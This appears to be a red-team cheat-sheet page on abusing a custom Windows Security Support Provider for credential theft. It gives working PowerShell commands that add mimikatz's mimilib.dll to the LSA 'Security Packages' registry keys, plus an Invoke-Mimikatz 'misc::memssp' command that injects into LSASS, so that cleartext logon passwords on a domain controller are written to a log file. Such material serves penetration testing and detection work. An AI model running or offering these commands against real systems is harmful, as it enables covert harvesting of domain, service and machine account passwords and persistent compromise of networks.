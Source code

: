 # Custom SSP

A Security Support Provider (SSP) is a DLL which provides for an application an authenticated connection.\
\
Microsoft SSPs:

* NTLM
* Kerberos
* Wdigest
* CredSSP

## Exploitation

### Manual Method

Mimikatz can provide a custom SSP (**mimilib.dll**) which logs local logons, service account, and machine account passwords in clear text on the target server.

Drop the mimilib.dll to system32 and add mimilib to Security Packages:

```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

### Automated Method

Using mimikatz, inject into LSASS (Not stable with server 2019 and 2022).

```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

{% hint style="info" %}
All local logons on the DC are logged to C:\Windows\system32\mimilsa.log
{% endhint %}
